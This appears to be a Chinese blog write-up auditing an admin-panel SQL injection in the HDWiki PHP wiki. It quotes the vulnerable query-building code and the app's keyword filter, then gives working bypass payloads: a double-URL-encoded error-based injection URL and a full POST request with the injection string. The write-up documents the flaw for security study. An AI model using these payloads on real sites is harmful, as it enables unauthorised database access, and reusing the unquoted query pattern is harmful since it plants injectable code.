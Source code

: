 ```yaml
---
title: hdwiki后台sql注入漏洞
date: 2019-04-27 23:03:47
tags: PHP代码审计
---
```


### 利用条件
后台注入漏洞，必须想办法登录后台（弱口令？）。
### 漏洞描述
注入漏洞发生在文件`control/admin_adv`的`dosearch`方法:

![](https://xzfile.aliyuncs.com/xzvul/b54cb9a88f4a49168469b6c7f324561e)

`$time`和`$orderBy`变量直接被带入
```
$count = $_ENV['adv']->search_adv_num($title,$time,$type);
```
和
```
$count = $_ENV['adv']->search_adv_num($title,$time,$type);
```

这两个方法在`model/adv.class.php`中：

```
function search_adv_num($title='',$time='',$type=''){
    $sql="SELECT  count(*)  FROM ".DB_TABLEPRE."advertisement WHERE 1=1 ";
    if($title){
    	$sql=$sql." AND title LIKE '%$title%' ";
    }
    if($time){
    	$sql=$sql." AND endtime-starttime<=$time "; //$time参数没有单引号，可以注入
    }
    if(''!==$type){
    	$sql=$sql." AND type='$type' ";
    }
    return $this->db->result_first($sql);
    }
```

```
function search_adv($start=0,$limit=10, $title='',$time='',$type='', $orderby='type' ){
	$advlist=array();
	$sql="SELECT * FROM ".DB_TABLEPRE."advertisement WHERE 1=1 ";
	if($title){
		$sql=$sql." AND title LIKE '%$title%' ";
	}
	if($time){
		$sql=$sql." AND endtime-starttime<=$time ";  //没有单引号，可以注入
	}
	if(''!==$type){
		$sql=$sql." AND type='$type' ";
	}
	$sql=$sql." ORDER BY $orderby DESC LIMIT $start,$limit "; // orderBy可以注入
	
	$query=$this->db->query($sql);
	while($adv=$this->db->fetch_array($query)){
		if($adv['starttime']!=='0'){
			$adv['starttime']=date('Y-m-d',$adv['starttime']);
		}
		if($adv['endtime']!=='0'){
			$adv['endtime']=date('Y-m-d',$adv['endtime']);
		}
		$adv['parameters']=unserialize($adv['parameters']);
		$adv=$this->adv_filter($adv);
		$advlist[]=$adv;
	}
	return $advlist;
}
```

### 安全防御绕过
HDWiki的安全防御机制比较混乱（可能是修补频繁的原因）。
大致如下：

防御机制在 `model/hdwiki.class.php`中:

```
function init_request(){
	//省略代码
	$querystring=str_replace("'","",urldecode($_SERVER['QUERY_STRING'])); //去掉单引号
	if(strpos($querystring , 'plugin-hdapi-hdapi-default') !== false){
		$querystring=str_replace('plugin-hdapi-', '', $querystring);
	}
	$pos = strpos($querystring , '.');
	if($pos!==false){
		$querystring=substr($querystring,0,$pos);
	}
	$this->get = explode('-' , $querystring);
	//省略代码
}

//过滤关键字
function checksecurity() {
	$check_array = array(
		'get'=>array('cast', 'exec', 'insert', 'select', 'delete', 'update', 'execute', 'from', 'declare', 'varchar', 'script', 'iframe', ';', '0x', '<', '>', '\\', '%27', '%22', '(', ')'),
	);
	foreach ($check_array as $check_key=>$check_val) {
		if(!empty($this->$check_key)) {
			foreach($this->$check_key as $getvalue) {
				foreach ($check_val as $invalue) {
					if(stripos($getvalue, $invalue) !== false){
						exit('No Aceess!注意敏感词!');
					}
				}
			}
		}
	}
}
```
1. 过滤了单引号，%27，导致我们没法对有单引号的sql进行注入。
2. 过滤关键字，导致即使有注入点没法利用注入语句，比如`select`。

有两种绕过方式：

1. 利用urlencode二次编码

访问

http://localhost/hkwiki/index.php?admin_adv-search-1-1%20and%20%2528s%2565lect%201%20%2566rom%20%2528s%2565lect%20count%2528*%2529,concat%2528user%2528%2529,floor%2528rand%25280%2529*2%2529%2529x%20%2566rom%20information_schema%252etables%20group%20by%20x%2529a%2529

给字母也url二次编码，绕过关键字检查。

我开启了报错模式，为了更清晰的展示：

![](https://xzfile.aliyuncs.com/xzvul/46a4c80279a14d57b1ee649197b79638)

默认没开启报错模式，可以用一般盲注语句测试。

2. 关键字过滤只限制了get，没有限制post，直接提交post请求。

数据包：

```
POST /hkwiki/index.php?admin_adv-search HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:64.0) Gecko/20100101 Firefox/64.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://localhost/hkwiki/index.php?admin_adv
Content-Type: application/x-www-form-urlencoded
Content-Length: 169
Connection: close
Cookie: hd_sid=PsiDn7; hd_auth=0b25ZPkhQuEoRhftnXsGkawqfXsuzbedeiv5AAgNbeQt3obgeDm8ppZLeFoEn8%2FnzGBDbyKD3KnOiAtPVvLr; hd_querystring=admin_adv
Upgrade-Insecure-Requests: 1

title=asf&time=604800  and (select 1 from (select count(*),concat(user(),floor(rand(0)*2))x from information_schema.tables group by x)a)&type=&searchsubmit=%CB%D1+%CB%F7
```
![](https://xzfile.aliyuncs.com/xzvul/37b60da8d6ce4a688d53e4b067b33061)

